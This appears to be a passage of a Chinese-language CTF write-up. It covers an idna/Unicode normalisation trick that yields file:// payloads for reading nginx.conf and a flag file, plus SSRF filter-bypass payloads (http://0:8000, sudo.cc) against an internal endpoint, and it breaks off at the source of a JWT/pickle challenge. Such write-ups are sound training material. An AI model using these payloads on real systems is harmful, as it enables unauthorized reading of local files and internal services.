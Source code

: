 先idna编码，在utf-8解码，那就找一些unicode编码（经过这样后，是正常的字母）

```python
chars = ['s', 'u', 'c', 't', 'f']

for c in chars:
	for i in range(0x7f, 0x10FFFF):
		try:
			char_i = chr(i).encode('idna').decode('utf-8')
			if char_i == c:
				print('ASCII: {}   Unicode: {}    Number: {}'.format(c, chr(i), i))
		except:
			pass
```

payload

```
file://Ｓuctf.cc/usr/local/nginx/conf/nginx.conf 读取nginx的配置文件
```

```
file://Ｓuctf.cc/usr/fffffflag
```

[参考](https://www.cnblogs.com/hackerone/p/17509147.html)

## Python里的SSRF

题目描述

> 尝试访问到容器内部的 8000 端口和 url path /api/internal/secret 即可获取 flag

```
127.0.0.1被过滤
2130706433被过滤
0没被过滤
sudo.cc没过滤
```

payload

```
url=http://0:8000/api/internal/secret
url=http://sudo.cc:8000/api/internal/secret 需要多点几下
```

## Ye's Pickle(jwt伪造，pickle反序列化)

源码

```python
# -*- coding: utf-8 -*-
import base64
import string
import random
from flask import *
import jwcrypto.jwk as jwk
import pickle
from python_jwt import *
app = Flask(__name__)

def generate_random_string(length=16):
    characters = string.ascii_letters + string.digits  # 包含字母和数字
    random_string = ''.join(random.choice(characters) for _ in range(length))
    return random_string
app.config['SECRET_KEY'] = generate_random_string(16)
key = jwk.JWK.generate(kty='RSA', size=2048)
@app.route("/")
def index():
```